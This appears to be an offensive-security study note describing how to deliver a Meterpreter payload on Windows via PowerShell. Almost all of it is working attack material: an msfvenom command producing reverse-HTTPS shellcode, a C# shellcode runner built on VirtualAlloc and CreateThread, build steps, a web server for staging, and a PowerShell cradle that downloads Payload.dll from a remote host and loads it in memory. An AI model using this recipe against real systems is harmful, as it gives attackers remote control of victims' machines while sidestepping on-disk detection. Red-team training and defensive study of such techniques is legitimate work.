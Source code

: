 ### Powershell

Borrowing from the work laid out in `notes/windows/client-side-attacks/wscript.md`, we leverage the same ideas, but instead of delivering `Payload.dll` with Jscript, we do so with Powershell.

We begin with generating our shellcode:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.1 LPORT=443 -f csharp
```
We paste the output into relevant section of the following file, then save it as :
```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class InMemBundleOfJoy
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public static void runner()
    {
        byte[] buf = new byte[626] {
            0xfc,0x48,0x83,0xe4,0xf0,0xe8... // replace me!!
        }

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```
Compile the DLL:
```bash
dotnet new classlib -n DodgyLibrary
dotnet build DodgyLibrary
mv InMemBundleOfJoy.cs DodgyLibrary
cd DodgyLibrary
csc -target:library -out:Payload.dll InMemBundleOfJoy.cs
```
Make it available via web server:
```bash
python3 -m http.server 80
```
Pull it onto the target machine and execute in memory with the following Powershell:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.x.x/Payload.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("DodgyLibrary.InMemBundleOfJoy")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```